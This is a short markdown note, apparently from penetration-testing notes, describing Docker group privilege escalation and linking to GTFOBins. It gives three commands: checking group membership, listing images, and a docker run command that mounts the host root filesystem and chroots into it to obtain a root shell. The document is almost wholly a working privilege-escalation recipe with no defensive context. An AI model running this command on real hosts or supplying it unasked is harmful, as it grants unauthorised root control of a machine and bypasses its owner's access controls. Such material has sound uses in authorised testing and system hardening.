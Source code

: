 # Docker Group Privilege Escalation

Link: https://gtfobins.github.io/gtfobins/docker/

## Steps:

### 1) Confirm the user belongs in the docker group

    id

### 2) Check for images we can run

    docker image list

### 3) Get root shell

    docker run -v /:/mnt --rm -it alpine chroot /mnt sh
